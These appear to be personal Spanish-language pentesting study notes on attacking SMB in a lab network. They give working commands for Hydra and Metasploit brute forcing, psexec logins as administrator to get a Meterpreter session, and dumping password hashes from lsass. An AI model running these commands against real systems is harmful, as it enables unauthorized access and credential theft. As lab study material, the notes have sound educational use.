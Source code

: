 Podemos también hacer ataques de fuerza bruta con Hydra al protocolo SMB:
```bash
hydra -P user.txt -L passwords.txt smb://192.168.0.30
```

En caso de obtener un error haciendo ataques de fuerza bruta al protocolo smb, podemos usar metasploit:
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.0.30
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
```
![[Mis apuntes/ANEXOS/Pasted image 20230730145232.png]]

Una vez encontrado el usuario administrador, podemos loguearnos con la herramienta de psexec siempre y cuando algún recurso compartido tenga permisos de escritura:
```bash
impacket-psexec administrator@192.168.0.20
```

Si tiene permisos de escritura:
![[Mis apuntes/ANEXOS/Pasted image 20230729132935.png]]

Si no tiene permisos de escritura:
![[Mis apuntes/ANEXOS/Pasted image 20230730145409.png]]

No obstante, si queremos entrar con metasploit para obtener una sesión de meterpreter, tendríamos que usar el siguiente módulo:
```bash
use exploit/windows/smb/psexec
```

Y establecemos los parámetros:
```bash
set RHOST 192.168.0.20
set RPORT 445
set SMBUSER administrator
set SMBPASS password1
```

Y habremos obtenido lo mismo de antes pero con metasploit una sesión de meterpreter:
![[Mis apuntes/ANEXOS/Pasted image 20230729133215.png]]

Ahora podremos incluso dumpear los passwords de los usuarios, por lo que tenemos primero que mirar al proceso lsass para hacer esto:
```bash
pgrep lsass # Proceso para realizar acciones privilegiadas
migrate 464
hashdump
```
![[Mis apuntes/ANEXOS/Pasted image 20230729133349.png]]

También podemos conocer los usuarios si entramos con la shell y usamos el comando net users, donde vemos que en este caso hay tres usuarios dentro del SMB:
![[Mis apuntes/ANEXOS/Pasted image 20230729133613.png]]
